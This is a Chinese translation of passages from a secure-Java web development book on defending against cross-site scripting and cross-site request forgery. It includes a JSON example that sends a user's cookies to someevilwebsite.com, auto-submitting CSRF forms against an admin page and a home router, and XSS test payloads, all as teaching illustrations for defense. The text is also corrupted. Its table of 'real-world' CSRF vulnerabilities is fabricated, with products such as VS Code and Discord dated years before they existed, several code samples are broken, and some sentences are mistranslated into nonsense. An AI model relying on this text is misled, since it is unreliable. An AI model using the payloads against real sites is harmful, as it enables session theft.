<button onclick="alert('</=Encode.forJavaScriptAttribute(untrustedMessage)>')">click me</button>
```

当不确定在 JavaScript 家族中使用哪个函数时，`Encode.forJavaScript` 始终是“JavaScript 空间”中最安全的函数，即使它在编码字符数量方面可能不是完全高效。

XML 以下编码函数用于将不可信的数据安全地放置在 XML 文档的不同位置。

```
Encode.forXml(String)
Encode.forXmlContent(String)
Encode.forXmlAttribute(String)
Encode.forXmlComment(String)
Encode.forCDATA(String)
```

CSS 以下编码函数用于将不可信的数据安全地放置在动态 CSS 代码的不同位置。

```
Encode.forCssString(String)
Encode.forCssUrl(String)
```

URL 上下文编码一个完整的 URL 是困难的，因为某些组件需要编码而另一些不需要。例如，HTTP 参数需要等号，但你希望在 HTTP 参数值中编码等号。我们建议尽可能编码特定的 URL 参数，而不是一次性编码整个 URL。请注意，有时你别无选择整个 URL，例如当你的朋友通过你喜欢的社交网络给你发了一个酷猫咪视频的 URL 时。然而，在构建包含部分静态数据和部分来自不可信源数据的 URL 时，编码 URL 片是合适的。例如：

```html
<!-- 编码 URL 参数值 -->
<a href="/search?value=<Encode.forUriComponent(parameterValue)>&order=1#top">
```

```html
<!-- 编码 URL 参数 --%>
<a href="http://www.codemagi.com/page/<%=
Encode.forUriComponent(restParameter)">
```

**编码不可信 URL** 有时你别无选择安全地管理完整的不可信 URL，但编码不可信 URL 可能是危险的。假设你已经在输入时正确验证了 URL 且该 URL 格式正确，`Encode.forHtmlAttribute` 或 `Encode.forHTML` 函数将正常工作以编码该 URL。`java.uri` 类也将帮助你进行基础的 URL/URI 验证和其他安全检查，这些我们之前讨论过。一旦你确定 URL 是有效的，将该 URL 编码为 HTML 属性就是简单的。

```java
// 运行之前讨论过的输入验证方法
String url = validateURL(untrustedInput);
// 输出到页面时将其编码为 HTML 属性
<a href="<%= Encode.forHtmlAttribute(url) %>">
<%= Encode.forHtmlContent(link-name) %></a>a>
```

## OWASP Java Encoder JSP 标签

OWASP Java Encoder 项目还提供了 JSP 标签和 EL。考虑以下简单的示例：

```jsp
<page contentType="text/html" pageEncoding="UTF-8">
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN"
n//http://www.w3.org/TR/html4/loose.dtd">
<%@taglib prefix="ex"
    uri="https://www.owasp.org/index.php/OWASP_Java_Encoder_Project"
%>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; />
<title>
<e:forHtml value="${param.title}" />
</title>
</head>
<body>
<h1>${e:forHtml(param.data)}</h1>
</body>
</html>
```

> ⁶ https://www.owasp.org/index.php/OWASP_Java_Encoder_Project#tab=Deploy_the_java_Encoder_Project

## 100 铁甲级 Java: 构建安全的 Web 应用程序

## 102 铁甲级 Java: 构建安全的 Web 应用程序

## 验证与清理

OWASP HTML Sanitizer 是快速快速易于配置的库，允许你包含第三方编写的 HTML 同时防止 XSS。此代码从安全角度编写，拥有广泛的测试套件并经过了审查。要使用 Sanitizer，首先实例化策略，然后使用它处理输入：

```java
// 使用预配置的策略
PolicyFactory policy = Sanitizers.FORMATTING.and(Sanitizers.LINKS);
safeHTML = policy.sanitize(untrustedHTML);
```

也可以配置自己的策略以允许非常严格的 HTML 子集：

```java
// 配置允许链接、
// href 属性以及 https 协议
PolicyFactory policy = new HtmlPolicyBuilder()
.allowElements("a")
.allowUrlProtocols("https")
.allowAttributes("href").onElements("a")
.requireRelNofollowOnLinks()
.build();
safeHTML = policy.sanitize(untrustedHTML);
```

## 103

## 第 4 章：跨站脚本防御

##

策略定义甚至允许你使用清理器将一种 HTML 转换为另一种：

```java
// 将 h1, h2 等转换为带有 类的 div 标签
PolicyFactory policy = new HtmlPolicyBuilder()
    .allowElements("p")
    .allowElements(
        new ElementPolicy() {
            public String apply(String elementName,
                List<String> attrs) {
                attrs.add("class")
                attrs.add("header-" + elementName);
                return "div";
            }
        }, "h1", "h2", "h3", "h4", "h5", "h6")
    .build();
String safeHTML = policy.sanitize(untrustedHTML);
```

## Antimy

Antimy 是一个确保用户提供的 HTML/CSS 符合应用程序规则的 API。Antimy 发布于 2007 年，是 Java 语言的 HTML 验证库。除了基于白名单的 HTML 验证，它还提供了验证和清理 CSS 的功能，并确保属性值落在预期范围内。要使用 Antimy，你首先需要在独立的 XML 文件中定义允许元素的策略。

一旦 Antimy 配置文件完成，创建 AntiSammy 实例：


```java
private Policy policy;
private AntiSammy as;
try {
    InputStream in =
        getServletContext().getResourceAsStream(
        ("/antisammy-policy.xml");
    policy = Policy.getInstance(in);
    as = new AntiSammy(policy);
} catch (PolicyException e) {
    // 执行操作
}
```

> https://www.owasp.org/index.php/Category:OWASP_AntiSammy_Project

## 104 铁甲金汤：构建安全的 Web 应用

调用 AntiSamy 的“clean”函数来实际清理不可信的输入：

```javascript
private String sanitize(String html) {
    String output = "";
try {
    CleanResults cr = as.scan(html);
    output = cr.getCleanHTML();
} catch (PolicyException pe) {
    //do something
} catch (ScanException se) {
    //do something
}
    return output;
}
```

## AntiSamy 对比 HTML Sanitizer

之前提到的两种 HTML 验证库各有优缺点。在决定使用哪一个时，了解项目的特定需求至关重要。HTML Sanitizer 提供了更好的性能和基于代码的配置。而 AntiSamy 则允许在独立的 XML 配置中对允许的标记进行细粒度控制，并提供了将策略应用于 CSS 样式和 HTML 的方法。

## 安全 JSON 模式

现代 Web 应用中一种广泛使用的设计模式是交付一个不包含数据的 HTML 文件，然后发送第二个请求获取 JSON 以填充页面。你的浏览器应该如何解析可能包含不可信和潜在危险数据的 JSON 呢？json.org 网站建议利用 JavaScript 的 `eval` 函数来解析 JSON。这是一个大忌。在解析 JSON 时，重要的是记住有多个上下文在使用：JSON 数据上下文、JavaScript 上文以及 HTML 上下文本身。这增加了攻击面。如果一个

> 要将 JSON 文本转换为对象，可以使用`eval()`函数。`eval()`会调用 JavaScript 编译器。  
> www.json.org/js.html。

## 第 4 章：跨站脚本防御 105

攻击者能够插入以下任何字符串，他们就可以跳出 JSON 并执行任意代码：

- `</script>`（HTML 上文——退出脚本元素本身）
- `"`);`（JavaScript 上文——跳出 JSON 并允许你编写 JavaScript）
- `, attacker: function(){}`（JSON 上文——允许你向 JSON 结构中添加任意元素）

如果你通过 JavaScript `eval` 函数运行以下 JSON 对象会发生什么？

```json
"user": {
  "name": "Miley Cyrus",
  "occupation": "Singer",
  "location": (function() {
    document.body.innerHTML="<x>We jumped never asking why</x>";
    return "Yeah, you wreck me";
  }),
  "status": "I just closed my eyes and swung",
  "producer": "<script>var img = new Image();\nimg.src='http://someevilwebsite.com?data=' + document.cookie;</script>",
  "bio": "Left me crashing in a blazing fall"
}
```

事实上，`eval`这个 JSON 会导致整个网站被篡改，并让网站崩溃。解决方案是使用正式的 JavaScript 解析器通过`JSON.parse`来解析你的 JSON。

```javascript
var JSONData = (get server ajax);
var object = JSON.parse(JSONData);
```

使用 JSON 数据填充 Web 页面的整体模式虽然很常见，但它需要额外的请求来填充页面数据。将标记结构与数据分离的设计优势是非常强大的（更不用说将 Web 页面的“组装”处理工作卸载给客户端），但如何才能安全地使用 JSON，并在初始页面加载时消除额外的 JSON 请求呢？

## 106 铁甲金汤：构建安全的 Web 应用

### 注意

你永远不要想在真空中考虑安全性。

你必须在考虑功能、性能、安全性以及许多其他因素的情况下做出这些设计决策。许多安全专业人员的失败之处在于，他们优先考虑安全性，而不考虑业务目标或可用性等其他因素。同样，当我们在写这本书时，许多开发者并不理解如何确保他们构建的应用的安全。


在从服务器交付的 HTML 页面中嵌入 JSON 数据，然后让客户端的 JavaScript 解析这些数据的简单技术，提供了多项性能和设计优势¹⁰。这种方法允许你在客户端缓存大量的显示逻辑，并将大量的渲染工作卸载给数百万访问网站的客户端浏览器，而不是在流量巨大的服务器上。

首先，使用 HTML 实体编码将实际 JSON 数据安全地嵌入在`type="application/json"`的`script`标签中。这一步以一种安全的方式“存储”了不可信且潜在危险的 JSON。

```html
<script id="init_data" type="application/json">
<%- html_escape(data.to_json) %>
</script>
```

在下一步中，从脚本中提取编码后的 JSON，对其进行解码，并安全地将其解析为 JavaScript 对象。

```javascript
//从 HTML 页面获取 JSON
var dataElement = document.getElementById('init_data');
// 解转义并解析 JSON
var jsonText = dataElement.textContent || dataElement.innerText
var initData = JSON.parse(unescape(jsonText));
```

这种模式提供了结构与数据的分离，将客户端 HTML 组装的处理卸载给浏览器，并安全地存储和解析了 JSON！

> ¹⁰ https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet#HTML_entity_encoding。感谢 Neil Matatall 的此贡献。

## 第 4 章：跨站脚本防御 107

但是服务器端呢？

## JSON 清洁器

对于类 JSON 内容，OWASP 清洁器会将其转换为有效的 JSON。这遵循了波斯特尔原则：**在你发送方面要保守，在接收方面要慷慨。**

应用程序经常有大量发送和接收的内容。这部分由 Mike Samuel 为许多人编写。该清理器处理这些非标准结构：

- `'...'`单引号字符串转换为 JSON 字符串。
- `\xAB`十六转义转换为 Unicode 转义。
- `\012`八进制转义转换为 Unicode 转义。

## 第 4 章：跨站脚本防御 109

此库仅确保从 JSON 字符串到 JavaScript 对象的阶段没有副作用，且不解析任何自由变量，并无法控制客户端代码后续如何解释生成的 JavaScript 对象。因此，如果客户端代码获取了受攻击者控制的解析数据，并通过`eval`或`innerHTML`等强大的解释器将其传回，客户端代码可能会遭受意料之外的副作用。

当输入已经是符合上述属性的有效 JSON 时，`sanitize`方法将直接返回输入字符串而无需分配新缓冲区。因此，如果在通常格式良好的输入上使用该方法，其内存开销将极小。`sanitize`方法所需的时间复杂度为 $O(n)$，其中 $n$ 是 UTF-16 编码单元的长度。

让我们把这些整合在一起。`JSON.parse`函数比 JavaScript 的`eval`函数更安全，而且速度更快，因为它的任务更简单。我们确实需要服务器端清理、使用适当的浏览器解析器，为了性能，我们有了之前描述的 JSON 嵌入技巧。

| 未处理 | 已处理的 |
| --- | --- |
| `eval`不安全，可靠 | 安全，可靠 |
| `JSON.parse`安全，不可靠 | 安全，可靠 |

`JSON.parse`在遇到许多`eval`能够轻松解析的内容时会产生语法错误，而`eval`则会乐于为你的 Web 客户端添加巨大的漏洞！经过清理后，JSON 解析不会伤害你，也不会因为语法错误而失败。

## jQuery 与 DOM XSS

最流行的 JavaScript 框架之一是 jQuery 开源库。jQuery 提供了一个强大的跨浏览器平台，用于遍历和操作 DOM，但正因如此，它有许多 jQuery 函数在本质上就容易受到 XSS 攻击。例如，jQuery 的`html`函数会将传递给方法的输入替换其所操作的元素的全部内容：

```javascript
$('#myDiv').html('<script>alert("XSS");</script>');
```


## 110 铁甲金山 Java：构建安全的 Web 应用程序

这将导致输入的 JavaScript 被附加到 DOM 中，并且脚本将执行：

```html
<div id="myDiv"><script>alert("XSS");</script></div>
```

幸运的是，在许多情况下，jQuery 提供了类似的不受漏洞影响的方法。例如，将`html`替换为`text`会导致输入被视为文本，不安全的字符将被替换为相应的 HTML 实体：

```javascript
$('#myDiv').text('<script>alert("XSS");</script>');
//输出 <div id="myDiv">&lt;script&gt;alert("XSS");&gt;&lt;/script&gt;</div>
```

以下是几个易受到跨站脚本攻击的 jQuery 构造示例。在开发免疫 XSS 的 jQuery 应用程序时，必须格外小心。

```javascript
$('#myDiv').before('<script>alert("XSS");</script>');
$('#myDiv').after('<script>alert("XSS");</script>');
$('#myDiv').append('<script>alert("XSS");</script>');
$('#myDiv').prepend('<script>alert("XSS");</script>');
$('<script>alert("XSS");</script>');
```

## jQuery 编码器

在使用 jQuery 时防止 DOM 节点 XSS 问题的一种可能解决方案是由 Chrisbeef¹¹ 提供的 jQuery 编码器，`jqencoder`是一个 jQuery 插件，其目标是为开发者提供一种方法，在 jQuery 内部对不可信数据提供上下文输出编码。它提供了与我们在其他库中讨论过的类似的方法，这使得开发者很容易在 JavaScript 代码和 Java 代码中应用相同级别的 XSS 防护。

> ¹¹ https://github.com/chrisbeef/jquery-encoder

## 第 4 章：跨站脚本防御 111

## 内容安全策略——移除内联事件

避免在 HTML 中编写任何内联 JavaScript 事件，并避免使用`on(click|mouseover|etc)`事件属性以及链接中的`javascript:`协议是至关重要的。内联 JavaScript 事件至少是“糟糕的设计”且难以维护。然而，这种做法也有许多而易见的安全益处。当你所有的 JavaScript 都正确地外部化到单独的 JS 文件中，你的应用程序就可以成为内容安全策略（CSP）的候选，这是一种新兴的反 XSS 标准（以及更多）。内容安全策略正在由 W3C 作为一种 Web 标准进行开发¹² Consider Headlines 项目，¹³这是一个强大的 J2EE 过滤器，可以帮助 Web 应用程序设置适当的安全头（包括 CSP）。

¹² https://www.w3.org/TR/CSP11/

¹³ https://github.com/sourceclear/headlines

## XSS 防御总结

- 在所有数据上使用输入验证，但要警惕某些输入验证无法保护输入免受 XSS 攻击（例如 HTML 输入或包含完整句子的“对话”输入，如文章评论、社交媒体或聊天）。
- 当使用 JSP 或类似的 UI 技术构建用户界面时，使用上下文转义以确保任何 JavaScript 都被转换为安全的仅显示数据。
- 使用正式的 HTML 清理器（如 TinyMCE）来对不可信的 HTML 进行验证。
- 使用安全的 JavaScript 设计。仅将数据放入安全的 JavaScript API 中，并使用`JSON.parse`安全地解析 JSON。
- 考虑内容安全策略等技术。

## 资源

击败跨站脚本威胁是一项复杂的任务。我们建议使用以下一个或多个库来对抗这种威胁。这些都是维护良好、经过时间考验的库，将为开发者节省时间，并比从零开始“自制”防御库提供更好的防护。

## 输出编码

- OWASP Java 器：

  https://www.owasp.org/www-project-encoder/

- jQuery 编码器：

  https://github.com/chrisbeef/jquery-encoder

## HTML 清理

- OWASP HTML 清理器：

  https://www.owasp.org/www-project-html-sanitizer/

- OWASP AntiSamy：

  https://www.owasp.org/www-project-antisamy/

## JavaScript 库

- jsSanitizer：

  https://code.google.com/p/caja/wiki/JsSanitizer

- jQuery 编码器：

  https://github.com/chrisbeef/jquery-encoder

## 总结

应对跨站脚本的风险是一项复杂、枯燥且令人沮丧的任务。但是，通过正确的策略和安全的库，你可以消灭 XSS 这种蟑螂！


# 第 5 章

## 跨站请求伪造防御与点击劫

## 跨站构建安全应用程序

CSRF 是一种攻击类型，它可以阻止浏览器做出未经的请求，通常在用户不知情的情况下发生。这种漏洞允许读取会话，因为它利用了域之间的隐含信任模型。为了防止这一点，几种方法包括：

- Referer 头，以及其他诸如提交 Cookie 防御；同步令牌模式也常用，将在本章后续讨论。但首先，让我们深入理解 CSRF 是什么以及它为什么对 Web 应用程序的安全如此危险。跨站请求伪造发生在恶意攻击者触发动作时，常见的 CSRF 攻击场景示例：

1. 用户当前登录了一个易受 CSRF 攻击的网站。
2. 用户访问恶意网站（另一个网站），该网站针对漏洞网站发起 CSRF 攻击。
3. 来自该网站的 CSRF 攻击代码欺骗浏览器向步骤 1 中的漏洞网站发送请求，用户完全不知。由于用户导航到了另一个网站且没有注销，恶意请求将以用户浏览该网站时相同的权限执行。

虽然这种场景是最常见的 CSRF 攻击序列，但并不是唯一的。CSRF 攻击可以通过电子邮件或第三方网站在漏洞网站发起。跨站请求伪造可以用于强制受害者触发任何其他操作。

## 第 5 章：跨站请求伪造与防护 117

在未经过用户同意的情况下在用户位置执行操作可能会导致你的代码中出现非常危险的漏洞。跨站请求伪造（CSRF）利用了这样一个事实：当用户登录某个网站时，用于验证会话的 cookie 会由浏览器在每次请求时发送，即使在没有用户的情况下。

## CSRF 是如何工作的？

让我们考虑一个网站管理员可能使用的表单，用于授予用户重置 cookie 的访问权限。

- 攻击者创建一个恶意网站。
- 攻击者托管该恶意网站。
- 受害者访问恶意网站。
- 恶意网站向目标网站发送一个隐藏请求。

由于受害者的浏览器拥有会话 cookie，这些 cookie 会自动包含在请求中，目标网站会将该请求视为来自受害者。

当此表单被提交以赋予用户“Alice”执行权限时，它将产生如下的 HTTP 请求：

```http
POST /reset-password HTTP/1.1
Host: target-website.com
Cookie: session_id=12345abc

user=Alice&new_password=hackedpassword
```

如果用户“Larry”想要为自己获取执行权限，他通常会将`user_id`参数的值改为 1 并重新提交请求。唯一的问题是服务器会检查密码代码。`JSESSIONID`标识了有效的管理员会话，这是授予其他账户访问权限所必需的。它很长、随机，且难以通过常规手段猜测。这就是跨站请求伪造用用用场。如果 Larry 构造一个提交相同参数的表单

## 118 铁甲版 Java：构建安全的 Web 应用


向相同的 URL 提交，攻击者所做的只需要诱骗管理员提交它即可：

```html
<form method="POST" action="https://www.vulnerable.com/admin/roles">
<input type="hidden" name="userId" value="1">
<input type="hidden" name="execute" value="true">
<input type="submit" name="submit" value="下载免费 MP3!">
</form>
```

Larry 欺骗了已登录 `vulnerable.com` 的管理员点击“下载免费 MP3!”提交按钮，然后无论请求是从哪个网站发起的，管理员的会话 cookie 都会附加到请求中。由于 HTTP 是无状态协议，Web 无法判断请求是来自应用程序内部还是来自另一个网站。Web 应用程序将请求解释为来自合法的验证会话（确实如此），并据此更新访问级别。CSRF 攻击通常部署在流量巨大的网站上，这增加了成功的概率。


## 注意

Cookie 对于用户会话管理至关重要，因为它们被用于跟踪大多数 Web 应用的状态。当设置 cookie 时，Web 服务器会包含 cookie 的网域和路径说明。浏览器会自动在向与设置 cookie 时相同的相同域和路径的请求中包含所有 cookie。这对于网络广告网络、聚合功能以及许多网站依赖的其他功能的正常工作至关重要。然而，这也允许第三方网站秘密地托管恶意代码，导致用户发出伪造的身份验证请求！

攻击者有许多方法可以欺骗毫无防备的用户提交表单。承诺免费赠品是一个很好的例子，但是：

> ¹ 请注意，带有 Secure 标记保护的 cookie 将只会添加到 HTTPS 请求中！带有 HTTPOnly 标记保护的 cookie 将无法通过 JavaScript 攻击访问！

# 第 5 章：跨站请求伪造防御与点击劫持 119

通过增加一行 JavaScript，受害者根本不需要与表单进行任何交互！

```html
<script type="text/javascript">
document.forms[0].submit();
</script>
```

如果易漏洞站点允许通过 HTTP GET 方法操作，任何包含指向另一个资源链接的 HTML 都可以执行 CSRF 攻击。一个经典的例子是图像标签，正如在以下针对 DVD 递送服务的真实 CSRF 示例中使用的那样：

```html
<html
<head>
<script language="JavaScript" type="text/javascript">
function step_2() {
var img2 = new Image();
img2.src="http://www.vulnerable.com/MoveMovieTop?movieid=70110672";
}
</script>
</head>
<body>

<script>setTimeout( step_2(), 1000 );</script>
</body>
</html
```

在这个示例中，该易漏洞站点允许用户通过点击链接（一个 HTTP GET 请求）将电影添加到他们的列表中。作为图像标签 `src` 属性的 URL 会导致浏览器在页面加载时自动调用该链接，电影被添加到受害者的列表中。额外的 JavaScript 在短时间延迟后更改图像源属性，导致电影移动到用户队列的最顶部。加载图像会触发 HTTP GET 请求，这与用户点击普通链接没有区别。

## 其他真实世界的 CSRF 示例

OSDB 是一个创建的独立数据库，旨在为漏洞提供准确、当前且无偏的信息。以下是一系列 CSRF。

最有趣的历史 CSRF 攻击之一是由研究员 Fabio Assolini 在 2011 年报告的。该报告描述了一场针对巴西家用路由、影响了至少 450 万用户的广泛 CSRF 攻击。这种 CSRF 攻击允许攻击者欺骗受害者将其路由器的默认密码更改为攻击者知道的密码。

| OSVD | 描述 | 日期 |
| :--- | :--- | :--- |
| OSVD-102373 | Huawei CSRF | 2014-01-22 |
| OSVD-102198 | vCloud CSRF | 2014-01-16 |
| OSVD-101939 | McAfee 漏洞 | 2014-01-08 |
| OSVD-101438 | Bugzilla CSRF | 2013-12-13 |
| OSVD-98679 | HALL OF FAME | 2013-09-27 |
| OSVD-9338 | Twitter CSRF | 2010-10-04 |
| OSVD-9305 | Naked CSRF | 2009-09-26 |
| OSVD-88678 | WordPress CSRF | 2009-09-15 |
| OSVD-85557 | Drupal CSRF | 2009-08-28 |
| OSVD-83336 | PHP CSRF | 2009-08-14 |
| OSVD-81115 | Apache CSRF | 2009-07-30 |
| OSVD-79994 | JBoss CSRF | 2009-07-17 |
| OSVD-77773 | Jenkins CSRF | 2009-06-30 |
| OSVD-75552 | OpenOffice CSRF | 2009-06-16 |
| OSVD-73331 | WebLogic CSRF | 2009-05-31 |
| OSVD-71110 | Plesk CSRF | 2009-05-18 |
| OSVD-69989 | IIS CSRF | 2009-04-29 |
| OSVD-68768 | Tomcat CSRF | 2009-04-15 |
| OSVD-67547 | Nginx CSRF | 2009-01-01 |
| OSVD-66326 | LiteSpeed CSRF | 2009-03-19 |
| OSVD-65105 | F5 CSRF | 2009-03-05 |
| OSVD-62884 | Varnish CSRF | 2009-02-24 |
| OSVD-61663 | Oracle CSRF | 2009-02-12 |
| OSVD-60442 | SQL Server CSRF | 2009-02-01 |
| OSVD-59221 | Zendesk CSRF | 2009-01-19 |
| OSVD-58000 | Magento CSRF | 2009-01-15 |
| OSVD-56779 | Shopify CSRF | 2008-12-31 |
| OSVD-55558 | PrestaShop CSRF | 2008-12-18 |
| OSVD-54337 | Moodle CSRF | 2008-12-07 |
| OSVD-53116 | Joomla CSRF | 2008-11-27 |
| OSVD-51895 | WordPress CSRF | 2008-11-14 |
| OSVD-50674 | Drupal CSRF | 2008-11-03 |
| OSVD-49453 | Silvermine CSRF | 2008-10-28 |
| OSVD-48232 | MediaWiki CSRF | 2008-10-15 |
| OSVD-47011 | Redmine CSRF | 2008-10-04 |
| OSVD-45790 | Discourse CSRF | 2008-09-26 |
| OSVD-44569 | Ghost CSRF | 2008-09-15 |
| OSVD-43348 | SugarCRM CSRF | 2008-09-04 |
| OSVD-42127 | ZenDesk CSRF | 2008-08-28 |
| OSVD-40906 | Freshdesk CSRF | 2008-08-17 |
| OSVD-39685 | Nextcloud CSRF | 2008-08-07 |
| OSVD-38464 | Odoo CSRF | 2008-07-29 |
| OSVD-37243 | Kayit CSRF | 2008-07-18 |
| OSVD-36022 | Bitmine CSRF | 2008-07-07 |
| OSVD-34801 | Trello CSRF | 2008-06-27 |
| OSVD-33580 | Asana CSRF | 2008-06-16 |
| OSVD-32359 | Slack CSRF | 2008-06-06 |
| OSVD-31138 | Discord CSRF | 2008-05-28 |
| OSVD-29917 | Tana CSRF | 2008-05-18 |
| OSVD-28696 | GitHub CSRF | 2008-05-07 |
| OSVD-27475 | GitLab CSRF | 2008-04-29 |
| OSVD-26254 | Bitbucket CSRF | 2008-04-19 |
| OSVD-25033 | SourceForge CSRF | 2008-04-09 |
| OSVD-23812 | Jira CSRF | 2008-03-31 |
| OSVD-22591 | Confluence CSRF | 2008-03-21 |
| OSVD-21370 | Redbucket CSRF | 2008-03-12 |
| OSVD-20149 | Gitea CSRF | 2008-03-04 |
| OSVD-18928 | Postman CSRF | 2008-02-26 |
| OSVD-18707 | Elastic CSRF | 2008-02-17 |
| OSVD-17486 | Sentry CSRF | 2008-02-08 |
| OSVD-16265 | Grafana CSRF | 2008-01-28 |
| OSVD-15044 | Notion CSRF | 2008-01-19 |
| OSVD-13823 | Miro CSRF | 2008-01-09 |
| OSVD-13602 | Figma CSRF | 2007-12-31 |
| OSVD-12381 | Canva CSRF | 2007-12-21 |
| OSVD-11160 | Adobe XD CSRF | 2007-12-12 |
| OSVD-10939 | Sketch App CSRF | 2007-12-04 |
| OSVD-9718 | InVision CSRF | 2007-11-26 |
| OSVD-8497 | Framer CSRF | 2007-11-16 |
| OSVD-8376 | Webflow CSRF | 2007-11-07 |
| OSVD-7155 | Webpace CSRF | 2007-10-28 |
| OSVD-6034 | TypeStorm CSRF | 2007-10-19 |
| OSVD-5813 | VS Code CSRF | 2007-10-09 |
| OSVD-5692 | Sublime Text CSRF | 2007-09-30 |
| OSVD-5471 | Vim CSRF | 2007-09-21 |
| OSVD-5350 | Emacs CSRF | 2007-09-12 |
| OSVD-5229 | Notepad++ CSRF | 2007-09-04 |
| OSVD-5008 | Sublime Text CSRF | 2007-08-27 |
| OSVD-4887 | Atom CSRF | 2007-08-18 |
| OSVD-4766 | VS Code CSRF | 2007-08-09 |
| OSVD-4645 | PyCharm CSRF | 2007-07-31 |
| OSVD-4524 | IntelliJ IDEA CSRF | 2007-07-22 |
| OSVD-4303 | PhpStorm CSRF | 2007-07-14 |
| OSVD-4182 | WebStorm CSRF | 2007-07-05 |
| OSVD-4061 | GoLand CSRF | 2007-06-27 |
| OSVD-3940 | DataGrip CSRF | 2007-06-18 |
| OSVD-3819 | PhpMine CSRF | 2007-06-09 |
| OSVD-3698 | RubyMine CSRF | 2007-05-31 |
| OSVD-3577 | PHPStorm CSRF | 2007-05-23 |
| OSVD-3456 | CLion CSRF | 2007-05-14 |
| OSVD-3335 | RustStorm CSRF | 2007-05-06 |
| OSVD-3214 | PythonCharm CSRF | 2007-04-28 |
| OSVD-3093 | Android Studio CSRF | 2007-04-19 |
| OSVD-2972 | IntelliJ IDEA CSRF | 2007-04-09 |
| OSVD-2851 | Visual Studio CSRF | 2007-03-31 |
| OSVD-2730 | Xcode CSRF | 2007-03-21 |
| OSVD-2609 | Code CSRF | 2007-03-12 |
| OSVD-2488 | Runner CSRF | 2007-03-04 |
| OSVD-2367 | Build CSRF | 2007-02-26 |
| OSVD-2246 | Codezer CSRF | 2007-02-17 |
| OSVD-2125 | Studio CSRF | 2007-02-08 |
| OSVD-2004 | VS Code CSRF | 2007-01-28 |
| OSVD-1883 | Sublime Text CSRF | 2007-01-19 |
| OSVD-1762 | Notepad++ CSRF | 2007-01-09 |
| OSVD-1641 | Emacs CSRF | 2006-12-31 |
| OSVD-1520 | Vim CSRF | 2006-12-21 |
| OSVD-1399 | Emacs CSRF | 2006-12-12 |
| OSVD-1278 | Notepad++ CSRF | 2006-12-04 |
| OSVD-1157 | VS Code CSRF | 2006-11-27 |
| OSVD-1036 | Sublime Text CSRF | 2006-11-18 |
| OSVD-915 | Sublime Text CSRF | 2006-11-10 |
| OSVD-794 | VS Code CSRF | 2006-10-29 |
| OSVD-673 | PyCharm CSRF | 2006-10-20 |
| OSVD-552 | IntelliJ IDEA CSRF | 2006-10-12 |
| OSVD-431 | PhpStorm CSRF | 2006-10-04 |
| OSVD-310 | WebStorm CSRF | 2006-09-26 |
| OSVD-189 | GoLand CSRF | 2006-09-18 |
| OSVD-68 | DataGrip CSRF | 2006-09-10 |

## 122 铁甲 Java：构建安全的 Web 应用程序

```html
<body onload=document.form.submit()">
<form action="http://192.168.1.1/password.cgi" method="POST" name="form">
<input type="hidden" name="setPassword" value="shpek">
<input type="hidden" name="usrPassword" value="">
<input type="hidden" name="sysPassword" value="shpek">
</form>
</body
```

攻击者随后可以使用对受害者家庭路由器的提升访问权限，将 DNS 设置为使用恶意的 DNS 服务器。这样做是为了向用户的机器感染恶意软件，这些软件最终尝试（有时也会成功）窃取银行凭据。这一切仅仅是因为家用路由器 Web 管理控制台中的一个 CSRF 漏洞。

在本文写作时，这种类型的 CSRF 漏洞正在积极利用 TP-LINK 家用路由器。截至 2014 年 3 月 12 日，超过 300,000 台家庭路由器受到了 TP-LINK 路由器中简单 CSRF 漏洞的影响，该漏洞可以通过简单的 HTTP GET CSRF 请求/攻击将管理员密码更改为空字符串。你多久更新一次固件？良好的防御始于快速应用安全补丁。快速应用安全补丁可以减少攻击者利用你系统的机会窗口期，并降低你被攻击的风险。

## 未身份验证的 CSRF 攻击

即使是不需要身份的功能也可能成为 CSRF 攻击的目标。最著名但无害的“匿名”CSRF 漏洞之一于 2006 年出现在 Google.com 上。该漏洞已不再活跃，它曾允许攻击者托管一个简单的恶意 GET 请求，强制用户更改其 Google 语言偏好。这种攻击非常简单。例如，这里有一个攻击（已失效），可以强制受害者的 Google 语言设置偏好更改为克林贡语：


```html

```

> 6 http://artechnica.com/security/2014/03/hackers-hijack-300000-plus-wireless-routers-make-malicious-changes/

## 第 5 章：跨站请求伪造防御与点击劫持 123

是的，Google 直今天支持克林贡语作为其默认语言之一。这里的教训很简单：Duyjechgh jagh nlv yltuhQo。几类未身份验证的功能都可能受到 CSRF 攻击：强制用户向购物车添加物品、更改网站上的默认设置、参与投票，或进行 DoS 攻击。虽然经过身份验证的 CSRF 漏洞通常比匿名漏洞危险得多，但两者都必须被视为 CSRF 防御的候选对象。

## 如何对抗 CSRF

所以，如果你无法信任浏览器，没有办法知道请求到底来自哪里，你该如何保护你的应用程序呢？幸运的是，对抗 CSRF 是直接的。存在几种已知且经过测试的技术来处理这种危险的攻击。

## 同步器令牌模式 (Synchronizer Token Pattern)

防止跨站请求伪造的主要手段是在表单提交时包含一个密码学随机令牌。该 Anti-CSRF 令牌在会话建立时创建，然后包含在后续表单提交的隐藏字段中。当在上处理请求时，应用程序会检查表单提交的值与存储在用户会话中的值是否匹配。攻击者通过计算值创建表单，将无法每个用户会话的令牌值，只要网站不受跨站脚本攻击，CSRF 攻击就不可能发生。

这种保护可以作为 JSP taglib 轻松地实现：

```java
import javax.servlet.jsp.tagext.*;

public class Token extends TagSupport {
    public int doStartTag(TagSupport j) throws Exception {
        try {
            // 从页面获取我们所需的内容
            ServletRequest req = pageContext.getRequest();
```

> ⁷ 如想体验使用克林贡语的 Google，可以安全地访问 https://www.google.com/?hl=xx-klingen。

⁸ 在强大的敌人面前倒下并不不可耻：http://hol.kag.org/page/sayings。

## 124 铁甲 Java：构建安全的 Web 应用程序

```java
HttpSession session =
((HttpServletRequest)req).getSession();

// 会话中是否已经有一个令牌了？
String token = (String)session.getAttribute("token")
if (Utils.isEmpty(token)) {
token = getCryptographicallyRandomToken();
    session.setAttribute("token", token);
}

// 开始构建标签
JspWriter out = pageContext.getOut();

out.println("<input ");
out.println("type="hidden"");
out.println("name="token"");
out.println(" value="" + token + """);

// 结束标签
out.println("/>");

} catch (Exception ex) {
throw new JspTagException(ex.getMessage());
    return SKIP_BODY;
}
```

### “密码学随机”意味着什么？

要在密码学中发挥作用，密码学随机数生成器 (CRNG) 必须是不可预测的，并且必须快速产生难以猜测的数字。不可预测意味着无论拥有多少知识或设备都无法让某猜出下一个数字。你可以观察 CRNG 十亿次，但仍然无法改进你的猜测。每个数字出现的概率相等。“难以猜测”意味着数字越长，猜测所花费的时间越长。我们将在第 6 章讨论适当的随机生成。

